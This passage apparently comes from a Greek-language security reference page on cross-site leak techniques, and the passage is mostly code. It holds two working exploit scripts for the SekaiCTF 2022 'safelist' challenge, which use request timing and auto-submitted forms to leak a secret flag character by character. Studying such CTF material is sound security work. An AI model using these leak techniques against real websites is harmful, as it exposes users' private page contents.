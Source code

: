 ```html
controller.abort();

log("test_" + c + "_" + i, delta);

// Save time needed
deltas.push(delta);
}
return deltas;
};

// Check each char
const pwn = async () => {
// Try to leak each character
for(let i = 0; i < alphabet.length; i++) {
//Check the indicated char
let deltas = await leak(alphabet[i]);

// Calculate mean time from requests to example.com
let avg = deltas.reduce((a,v) => a+v, 0) / deltas.length;

// If greater than 250, the HTML code was injected (flag in index 0)
if (avg > 250) {
log("tests_pos_" + alphabet[i], deltas)
}
// Flag in the page
else {
log("tests_neg_" + alphabet[i], deltas)
}
}
};

window.onload = async () => {
pwn();
};
</script>
```
### Exploit 2

Ίδια τακτική αλλά διαφορετικός κώδικας από [https://blog.huli.tw/2022/10/05/en/sekaictf2022-safelist-xsleak/](https://blog.huli.tw/2022/10/05/en/sekaictf2022-safelist-xsleak/)
```html
<!DOCTYPE html>
<html>
<!--
The basic idea is to create a post with a lot of images which send request to "/" to block server-side nodejs main thread.
If images are loading, the request to "/" is slower, otherwise faster.
By using a well-crafted height, we can let note with "A" load image but note with "Z" not load.
We can use fetch to measure the request time.
-->
<body>
<button onclick="run()">start</button>
<form id=f action="http://localhost:1234/create" method="POST" target="_blank">
<input id=inp name="text" value="">
</form>

<form id=f2 action="http://localhost:1234/remove" method="POST" target="_blank">
<input id=inp2 name="index" value="">
</form>
<script>
let flag = 'SEKAI{'
const TARGET = 'https://safelist.ctf.sekai.team'
f.action = TARGET + '/create'
```